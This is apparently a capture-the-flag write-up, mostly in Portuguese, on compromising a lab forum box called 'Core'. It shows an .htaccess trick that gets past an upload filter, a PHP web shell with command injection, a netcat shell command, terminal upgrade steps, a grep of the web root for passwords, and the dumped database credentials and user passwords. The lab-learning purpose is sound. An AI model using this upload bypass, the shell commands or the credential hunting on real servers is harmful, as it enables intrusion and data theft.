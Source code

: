 #+title: Core
#+author: gabriel

* intro
Our Anti-Cybercrime team has received information about illegal activities on a hacker forum. The administrator of the forum conducts his shady business here in secret and every day new members are added to the criminal network. Our team suspects that confidential data is stored on the server of this forum. Your task is to infiltrate the forum as a normal user and collect important information about the administrator. This operation requires careful planning and high technical skills. Our goal is to identify digital criminals and ensure the digital security of society.

** urls
#+begin_src sh
http://coreforum.hv/
http://coreforum.hv/
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/addPost.php
http://coreforum.hv/index.php
http://coreforum.hv/login.php
http://coreforum.hv/login.php
http://coreforum.hv/login.php
http://coreforum.hv/login.php
http://coreforum.hv/logout.php
http://coreforum.hv/profile.php
http://coreforum.hv/register.html
http://coreforum.hv/register.php
http://coreforum.hv/set_session.php
http://coreforum.hv/set_session.php?id=61
http://coreforum.hv/set_session.php?id=62
http://coreforum.hv/set_session.php?id=63
http://coreforum.hv/set_session.php?id=64
http://coreforum.hv/set_session.php?id=65
http://coreforum.hv/set_session.php?id=66
http://coreforum.hv/set_session.php?id=67
http://coreforum.hv/set_session.php?id=68
http://coreforum.hv/set_session.php?id=69
http://coreforum.hv/set_session.php?id=70
http://coreforum.hv/set_session.php?id=71
http://coreforum.hv/set_session.php?id=72
http://coreforum.hv/set_session.php?id=73
http://coreforum.hv/show_post.php
http://coreforum.hv/topics
http://coreforum.hv/topics/topic1.html
http://coreforum.hv/topics/topic2.html
http://coreforum.hv/topics/topic3.html
http://coreforum.hv/topics/topic4.html
http://coreforum.hv/uploads
http://coreforum.hv/uploads
http://coreforum.hv/uploads/.htaccess
http://coreforum.hv/uploads/cmd.bypass
http://coreforum.hv/uploads/cmd.bypass?cmd=ls
#+end_src

Na funcionalidade de file upload existe um filtro para extensão, fiz alterações no MIME type, FIle signature e mesmo assim não conseguia o upload do web shell php.

Porém ao enviar um arquivo .htaccess com o content
: AddType application/x-httpd-php .bypass

o bypass no filtro é bem sucedido e a vuln command injection foi encontrada ->
: http://coreforum.hv/uploads/cmd.bypass?cmd=ls



*rodar na aplicação* ->
: nc -lvnp 1337 -e /bin/bash

*to get bash* ->
: python3 -c 'import pty; pty.spawn("/bin/bash")'

*CTRL - Z no reverse shell e*->
: stty raw -echo; fg



*xterm para funcionar corretamente* ->
: export TERM=xterm

*permissao do www-data user sem password* ->
: sudo /usr/sbin/iftop

porém o iftop está com algumas opções perigosas para segurança como espace shell desativada, então será necessário outro caminho

Sabendo da existência do banco de dados, utilizando este grep buscarei por alguma coisa com password no dir da aplicação ->
: grep -ri "password" /var/www/html/

#+begin_src sh
www-data@debian:/var/www/html/uploads$ cat /var/www/html/dbconnect.php
<?php

$servername = "localhost";
$db_username = "root";
$db_password = "mUsQ6kQ6L86yRnzD";
$dbname = "hacker";
#+end_src

#+begin_src sh
mysql> select * from users;
+----+----------+------------------+
| id | username | password         |
+----+----------+------------------+
|  1 | admin    | LrEVgETDEUDVAdCa |
| 13 | jon      | jonadmin         |
+----+----------+------------------+
#+end_src
